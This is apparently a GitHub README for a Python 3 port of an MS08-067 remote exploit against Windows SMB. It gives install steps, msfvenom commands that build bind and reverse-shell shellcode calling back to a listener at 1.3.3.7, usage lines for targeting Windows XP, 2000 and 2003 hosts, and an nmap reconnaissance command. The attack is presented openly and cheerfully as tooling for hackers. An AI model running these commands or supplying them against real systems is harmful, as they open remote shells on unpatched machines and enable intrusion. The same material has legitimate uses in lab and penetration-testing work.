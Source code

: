 # MS08-067 Python exploit script updated for Python 3

This is an updated version of a MS08-067 Python exploit script to make it compatible with Python 3. 

It's based on the code of Andy Acer. 
Cloned and edited from this repository:  
https://github.com/andyacer/ms08_067

## Installation on Kali

`git clone https://github.com/Nerkho/MS08-067`

## Dependencies

You will need to install Impacket and Pycrypto

```
pip install impacket
pip install pycrypto
```


## Generating Shellcode

Example msfvenom commands to generate shellcode.  Just paste these into the file which you'll edit after downloading.  'Cause you're an awesome hacker like that.

```
msfvenom -p windows/shell_bind_tcp RHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=62000 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```
## Usage

Usage: ms08_067_python3.py <target ip> <os #> <Port #>

* ms08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
* ms08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
* ms08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
* ms08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
* ms08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
* ms08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
* ms08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)

Also: nmap has a good OS discovery script that pairs well with this exploit:  
nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 192.168.1.1Updated MS08-067 python exploit script for Python 3
